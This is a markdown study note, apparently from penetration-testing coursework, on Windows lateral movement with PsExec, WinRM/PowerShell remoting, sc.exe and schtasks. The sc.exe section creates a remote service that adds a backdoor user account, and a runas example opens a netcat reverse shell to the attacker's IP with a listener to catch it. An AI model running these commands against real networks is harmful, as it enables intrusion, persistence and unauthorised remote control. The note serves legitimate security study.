




# PSexec
- Ports: 445/TCP (SMB)
- Group: Administrators
1. Connects to Admin$ Share and uploads a service binary. PSexec uses `psexesvc.exe` 
2. Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle stdin/stdout/stderr.


```powershell
# Sysinternal's PSExec
.\psexec64.exe \\<server> -u <username> -p <password> -i cmd.exe

# Impacket's PSexec
psexec.py <Username>@<server> cmd.exe
```
More about psexec [here](https://www.rapid7.com/blog/post/2013/03/09/psexec-demystified/)
# WinRM/Powershell Remoting
- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Group Required: Remote Management Users
- PsExec on steroids
- If Admin creds are used, we get a elevated shell on the remote machine (No UAC issues)
### One-to-One
- Interactive login to one machine
- Runs in a new process (wsmprovhost)
- State-full (persistent variables and state) using `New-PSSession`
- Commands:
	- `Enter-PSSession` : Enter interactive prompt on the target machine
	- `New-PSSession` : Returns sessions to create persistent environment.
```powershell
# Create interactive session using the current credentials
Enter-PSSession -ComputerName mymachine.domain.local

# Create session
$sess = New-PSSession -ComputerName mymachine.domain.local
$sess # holds the credentails and ohter information

# Enter-PSSession can be used to connnec to this session
Enter-PSSession -Session $sess

# Use Credentails to connect to the remote machine
# Creat PScredentails object that holds username and password
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
# Connect to the machine
Enter-PSSession -Computername TARGET -Credential $credential
```

### One-to-Many
- Also knows as fan-out remoting.
- Non Interactive
- Executes commands parallely.
- Commands:
	- `Invoke-Command` : Executes command on one more machine parallely.
- Run commands/scripts on:
	- one more more computers
	- disconnected session
	- as a background job
- Required administrative access on the target machine.
```powershell
# Execute Command
Invoke-Command -ComputerName mycomputer.mydomain.local -ScriptBlock {whoami}

# Execute a fiile
Invoke-Command -ComputerName mycomputer.mydomain.local -FilePath .\Temp.ps1

# Can also run local functions on the target machine
Invoke-Command -ComputerName mycomputer.mydomain.local -ScriptBlock ${function:mylocalfunction}

# Can also use already created session from New-PSSession
Invoke-Command -FilePath C:\script.ps1 -Session $session
```
### CMD Command
```cmd
winrs.exe -u:<username> -p:<password> -r:<server> cmd
```
# Sc
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-  Group: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.



2. If the above process failes sc with reach SVCCTL via SMB named pipes on port 445 (SMB) or port 135 (SMB over NETBIOS)

```powershell
# Create a service
sc.exe \\<server> create MyService binpath= "net user drdragon Banana79 /add" start= auto

# start the service
sc.exe \\<server> start MyService

# Stop the service
sc.exe \\<server> stop MyService

# Delete the Service
sc.exe \\<server> delete MyService
```
- the `sc.exe` command should be run with `runas.exe /netonly` so that the service is created with the admin's credentials.
```powershell
# Get a reverse shell with leonards's access token.
runas /netonly /user:ZA\admin_leonard.summers "c:\tools\nc64.exe -e cmd.exe <myIP> 4443"

# Can catch with 
nc -nvlp 4443
# now we can schedule tasks with admin's privs
```

# schtasks.exe
- Remotely schedule tasks.
```powershell
# Create a task
schtasks.exe /s <server> /ru "SYSTEM" /create /tn "mytask" /tr "command/payload" /sc ONCE /sd 01/01/1970 /st 00:00

# Run the task
schtasks.exe /s <server> /run /tn "mytask"

# Delete the task
schtasks.exe /s <server> /tn "mytask" /delete /f
```
